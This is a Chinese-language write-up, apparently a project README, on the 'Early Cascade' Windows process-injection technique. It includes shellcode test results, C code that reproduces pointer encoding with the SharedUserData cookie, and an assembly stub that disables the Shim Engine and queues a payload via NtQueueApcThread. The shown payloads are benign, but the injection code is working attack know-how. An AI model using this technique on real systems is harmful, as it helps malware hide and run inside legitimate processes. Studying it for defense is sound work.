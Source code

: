 **Shellcode 测试结果：**

| Payload 类型 | 大小 | 测试结果 | 说明 |
|-------------|------|----------|------|
| **无限循环** (`\xeb\xfe`) | 2 bytes | ✅ **成功** | 进程退出，验证文件创建 |
| ExitProcess (生成器) | 19 bytes | ⚠️ 不稳定 | 有时进程不退出（地址硬编码问题） |

---

## 关键发现

### 1. 指针编码机制

Early Cascade 使用 Windows 的指针编码机制防止指针被简单篡改：

```c
PVOID EncodePointer(PVOID ptr) {
    // 从 SharedUserData 获取 Cookie
    ULONG cookie = *(ULONG*)((ULONG_PTR)0x7FFE0000 + 0x330);

    // XOR 编码
    ULONG_PTR encoded = cookie ^ (ULONG_PTR)ptr;

    // 循环右移
    ULONG shift = cookie & 0x3F;
    encoded = (encoded >> shift) | (encoded << (64 - shift));

    return (PVOID)encoded;
}
```

**示例输出**：
- Stub 地址：`0x00000288763B0000`
- 编码后：`0x5152A800001446D8`

### 2. Stub Shellcode 结构

Stub 是一个 66 字节的精简 shellcode，负责：

```asm
; 禁用 Shim Engine（防止后续 DLL 触发）
mov byte ptr [g_ShimsEnabled], 0

; 准备 NtQueueApcThread 参数
lea rcx, [rax-2]           ; RCX = NtCurrentThread (-2)
mov rdx, <payload_addr>    ; RDX = payload 地址
xor r8, r8                 ; R8 = NULL (context)
xor r9, r9                 ; R9 = NULL

; 调用 NtQueueApcThread
mov rax, <NtQueueApcThread_addr>
call rax

ret
```
